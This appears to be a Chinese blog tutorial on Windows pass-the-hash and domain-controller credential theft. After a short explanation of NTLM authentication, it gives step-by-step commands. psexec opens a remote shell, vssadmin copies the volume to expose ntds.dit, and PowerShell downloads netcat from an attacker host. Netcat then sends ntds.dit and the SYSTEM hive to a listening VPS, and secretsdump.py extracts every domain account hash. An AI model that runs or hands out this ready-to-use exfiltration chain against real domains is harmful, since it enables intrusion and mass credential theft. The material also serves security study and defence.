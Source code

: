 ### hash传递原理
了解windwos认证原理
```
1.用户输入username、password、domainname（交互式才需要这个步骤），客户端会计算hash值保存在本地；
2.客户端将username明文发给DC；
3.DC生成一个16Byte的随机数（challenge）发送给客户端；
4.客户端通过运算生成一个响应值response=f(hashes,challenge,other)=>other根据版本变化，例如时间戳来防止回访等；
5.客户端将响应值发送给DC；
6.DC经过同样的运算result = f(hashes,challenge,other)，然后比较result和response，一直就验证通过，不一致则验证不通过；
7.备注：目标不一定是DC，hash对应的账号所登录的（有缓存的）工作站也可以。
```
哪些服务会让Windows带上自身认证信息登录?访问smb共享文件夹等，此时会使用认证信息尝试登录，并且调用lsass内存中的hash缓存尝试登录，此时使用mimikatz等工具修改缓存的hash为获取得到的hash，从而使用修改的hash进行登录，这是哈希传递的原理(smb 直接基于TCP协议或者NetBIOS,TCP使用hash,NetBios基于ticket,Kerberos协议也是通过Hash进行身份验证的，不过Kerberos协议默认使用Client本机的缓存证书与Server进行验证 )
* psexec -k 表示使用kerberos协议，如果不成功可以删除Client机器中的缓存证书即可(klist purge)


获取管理员用户权限的交互式 shell
```c
psexec \\192.168.17.138 -u  user-p password cmd
```
拷贝文件到远程机器并以交互方式运行，运行结束后会删除
```c
psexec \\192.168.17.138 -c C:\Users\test\Desktop\GetHashes.exe
```
可以执行交互式shell了,那么最后就是拿数据了，导出ntds.dit文件了，导出数据又涉及到一些知识了，首先直接导出是不行的，文件在使用中是没法移动的
如果我们能够在AD域控主机上执行“vssadmin”命令，这条命令会生成“C”盘的卷影副本，从卷影副本中，我们可以复制AD域控主机上的“ntds.dit”文件了
```
卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。
```

我检查一下该主机上是否有可用的C盘的卷影拷贝命令如下
```c
vssadmin list shadows
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190329181152155.png)

看来是没有,那我们就来创建C盘的卷影拷贝
```c
vssadmin create shadow /for=c:
```
这是卷影副本的名字
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190329185020433.png)接下来利用powershell下载个nc到电脑上
```c
powershell (new-object System.Net.WebClient).DownloadFile( 'http://ip:7667/nc/nc.exe','C:\Windows\Temp\3.exe')
```
然后用vps监听
```c
nc -lvvp 9988 > ntds.dit
```
shell中执行其中这个是上文的卷影副本\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit
```c
nc ip:9988 < \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit
```
同时把system文件也下载下来
```c
3.exe -v ip 9988  < \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
```
导出了ntds.dit，接下来就是查看具体内容了,同样是用的https://github.com/SecureAuthCorp/impacket中的secretsdump.py 这个Python脚本来提取ntds.dit和SYSTEM文件中的域，uid，rid LM和NT哈希值了，命令如下：
命令如下
```c
python secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190329225208369.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)
